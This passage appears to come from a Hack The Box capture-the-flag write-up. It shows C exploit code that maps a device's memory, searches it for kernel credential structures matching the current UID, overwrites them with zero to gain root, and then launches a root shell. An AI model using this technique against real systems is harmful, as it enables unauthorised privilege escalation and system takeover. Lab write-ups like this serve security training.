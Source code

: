 ~~~~c

  unsigned int * addr = (unsigned int *)mmap((void*)start, size,
      PROT_READ | PROT_WRITE, MAP_SHARED, fd, offset);          

  if (addr == MAP_FAILED) {                                     
    perror("Failed to mmap: ");                                 
    close(fd);                                                  
    return -1;                                                  
  }                                                             
  printf("[+] mmap OK addr: 0x%p\n", addr);

  unsigned int uid = getuid();
  printf("[+] UID: %d\n", uid);

  unsigned int credIt = 0;
  unsigned int credNum = 0;
  while (((unsigned long)addr) < (start + size - 0x40)) {       
    credIt = 0;
    if (
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid
    ) {
      credNum++;
      printf("[+] Found cred structure! ptr: %p, credNum: %d\n", addr, credNum);

      credIt = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;

      if (getuid() == 0) {
        puts("[+] GOT ROOT!");
        execl("/bin/sh", "-", NULL);
        puts("[-] execl failed...");
        break;
      } else {
        credIt = 0;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
      }
    }
    addr++;
  }
  puts("[+] Scanning loop END");
  fflush(stdout);

~~~~

[1]: https://www.hackthebox.eu/home/machines/profile/191
[2]: https://www.hackthebox.eu/home/users/profile/1963
[3]: https://www.hackthebox.eu/home/users/profile/11652
[4]: https://www.hackthebox.eu/